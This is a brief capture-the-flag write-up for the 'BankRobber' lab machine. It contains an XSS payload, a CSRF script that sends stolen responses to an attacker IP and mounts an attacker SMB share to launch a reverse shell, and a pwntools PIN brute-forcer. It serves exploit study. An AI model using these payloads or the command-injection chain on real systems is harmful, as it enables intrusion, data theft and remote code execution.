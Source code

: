 # BankRobber

this box starts of with doing a XSS to gain the admin credentials, and once we gain the admin, again, we use a CSRF to exploit a functionality to gain code execution

XSS Used:

```text
This is on the webpage
<script src="http://10.10.14.64/script.js"></script>
```

```text
This is the script.js, used to do CSRF or is this SSRF? idk

var xhr = new XMLHttpRequest();
xhr.open('post', 'http://localhost/admin/backdoorchecker.php', true);
xhr.setRequestHeader('Content-type', 'application/x-www-form-urlencoded');
xhr.withCredentials = true;

# couldn't get this piece to work, but including it anyway
xhr.onreadystatechange = function () {
    if (xhr.readyState === XMLHttpRequest.DONE) {
        //if (xhr.status === 200 || xhr.status === 302) {
            console.log(xhr.response);
            console.log(xhr.responseText);
        document.write('<img src="http://10.10.14.28:81/abcd?data=' + btoa(xhr.responseText) + btoa(xhr.response)+'" />');
        //}
    }
};

establishing a share on the remote machine
xhr.send('cmd=dir | net use x: \\\\10.10.14.28\\kalishare /user:guest guest ');
#xhr.send('cmd=dir | x:\\shell.exe'); => this gets us reverse shell;
```

after getting a root shell, we see a process on port 910. on a bit usual stuff, it's a simple buffer overflow :\). This is the below python3 script used to brute-force the key on the executable

```text
from pwn import *

for i in range(0,9999):
  code = '0'*(4 - len(str(i))) + str(i)
  r = remote('localhost', '910', level='error')
  r.recvuntil(str.encode('[$]'))
  r.sendline(str.encode(code))
  resp = r.recvline()
  r.close()

  if str.encode("Access denied") not in resp:
    log.success('CODE: {}'.format(code))
    exit(1)
```

